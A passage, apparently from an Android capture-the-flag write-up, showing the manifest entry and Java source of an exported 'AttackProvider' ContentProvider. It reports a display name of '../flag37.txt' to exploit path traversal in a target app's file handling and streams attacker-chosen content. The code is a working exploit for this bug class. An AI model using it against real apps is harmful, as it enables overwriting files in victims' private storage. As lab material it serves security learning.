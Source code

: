 The **custom content provider** that will:
- Returns the correct metadata in the `query()` method
- Provides the exact file content via `openInputStream()` or `openFile()`
- Ensures the content is exactly 1337 bytes (with padding)

```xml
<provider  
    android:name=".AttackProvider"  
    android:authorities="ItsFadinG.github.io"  
    android:enabled="true"  
    android:exported="true"></provider>
```

```java
  
public class AttackProvider extends ContentProvider {  
    public AttackProvider() {  
    }  
  
    @Override  
    public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {  
        Log.i("AttackProvider", "query("+uri.toString()+")");  
  
        MatrixCursor cursor = new MatrixCursor(new String[]{  
                OpenableColumns.DISPLAY_NAME, OpenableColumns.SIZE  
        });  
  
        cursor.addRow(new Object[]{  
                "../flag37.txt", 1337  
        });  
  
        return cursor;  
    }  
    @Override  
    public ParcelFileDescriptor openFile(Uri uri, @NonNull String mode) throws FileNotFoundException {  
        Log.i("AttackProvider", "openFile(" + uri.toString() + ")");  
  
        try {  
            ParcelFileDescriptor[] pipe = ParcelFileDescriptor.createPipe();  
            ParcelFileDescriptor.AutoCloseOutputStream outputStream = new ParcelFileDescriptor.AutoCloseOutputStream(pipe[1]);  
  
            new Thread(() -> {  
                try {  
                    outputStream.write("give flag".getBytes());  
                    outputStream.close();  
                } catch (IOException e) {  
                    Log.e("AttackProvider", "Error in pipeToParcelFileDescriptor", e);  
                }  
            }).start();  
  
            return pipe[0];  
        } catch (IOException e) {  
            throw new FileNotFoundException("Could not open pipe for: " + uri.toString());  
        }  
    }  
  
    @Override  
    public int delete(Uri uri, String selection, String[] selectionArgs) {  
        Log.i("AttackProvider", "delete("+uri.toString()+")");  
        throw new UnsupportedOperationException("Not yet implemented");  
    }  
  
```